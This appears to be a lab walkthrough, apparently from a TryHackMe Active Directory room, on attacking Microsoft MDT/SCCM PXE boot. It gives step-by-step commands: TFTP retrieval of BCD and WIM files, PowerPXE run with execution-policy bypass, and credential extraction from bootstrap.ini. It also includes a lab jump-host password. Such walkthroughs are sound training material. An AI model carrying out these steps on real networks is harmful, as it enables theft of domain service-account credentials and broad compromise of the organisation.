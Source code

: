 # Microsoft Deployment Toolkit (MDT) & SCCM: Breaching Active Directory

Large organisations require tools to efficiently deploy and manage their IT infrastructure. Manual installation of software on every machine is impractical at scale. Microsoft provides tools like MDT and SCCM to centrally manage these tasks—but misconfigurations can be exploited to breach Active Directory (AD).

---

## MDT and SCCM Overview

- **Microsoft Deployment Toolkit (MDT):** Automates deployment of Microsoft Operating Systems (OS). Enables IT teams to maintain and update base images centrally, streamlining new machine setup.
- **System Center Configuration Manager (SCCM):** Manages updates for Microsoft applications, services, and OS. SCCM handles patch management, allowing updates to be tested and deployed centrally.

**Integration:**  
MDT is often integrated with SCCM. MDT handles new deployments and image management, while SCCM manages ongoing updates and patching.

**Security Note:**  
Central management tools like MDT and SCCM are attractive targets for attackers. Misconfigurations can allow attackers to compromise large portions of the infrastructure.

---

## PXE Boot

**Preboot Execution Environment (PXE) boot** allows new devices to install the OS directly over the network. MDT can create, manage, and host PXE boot images, typically integrated with DHCP. When a device receives an IP lease from DHCP, it can request the PXE boot image and begin OS installation.

**Attack Vectors:**
- Injecting a privilege escalation vector (e.g., a local administrator account).
- Performing password scraping attacks to recover AD credentials used during installation.

This guide focuses on password scraping to recover the deployment service account credentials used by MDT.

---

## PXE Boot Image Retrieval

### Step 1: Gather Information

- **MDT Server IP:** Obtain via DHCP or from the network diagram.
- **BCD Files:** These files store PXE boot configuration for different architectures. Retrieve them from [http://pxeboot.za.tryhackme.com](http://pxeboot.za.tryhackme.com).

> **Note:** BCD filenames are regenerated daily. Replace `x64{7B...B3}.bcd` with your specific filename.

---

### Step 2: SSH into the Jump Host

```shell
ssh thm@THMJMP1.za.tryhackme.com
# Password: Password1@
```

Create a working directory and copy the `powerpxe` repository:

```shell
cd Documents
mkdir <username>
copy C:\powerpxe <username>\
cd <username>
```

---

### Step 3: Download the BCD File via TFTP

Use TFTP to download the BCD file from the MDT server:

```shell
tftp -i <THMMDT IP> GET "\Tmp\x64{...}.bcd" conf.bcd
```

- Lookup the MDT server IP with:
    ```shell
    nslookup thmmdt.za.tryhackme.com
    ```

---

### Step 4: Extract PXE Boot Image Location

Use PowerShell and `powerpxe` to parse the BCD file:

```powershell
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
# Output will show the PXE Boot Image Location
```

---

### Step 5: Download the PXE Boot Image

```shell
tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
```

> **Note:** Downloading the WIM file may take several minutes.

---

## Recovering Credentials from the PXE Boot Image

You can extract credentials from the PXE boot image using `powerpxe` or manually by searching for the `bootstrap.ini` file inside the image.

**Using powerpxe:**

```powershell
Get-FindCredentials -WimFile pxeboot.wim
```

**Sample Output:**
```
>>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> UserID = <account>
>>>> UserDomain = ZA
>>>> UserPassword = <password>
```

---

## Summary

By exploiting misconfigurations in MDT and PXE boot processes, attackers can retrieve AD credentials and potentially compromise the domain. Always secure deployment infrastructure and monitor for unauthorized access.
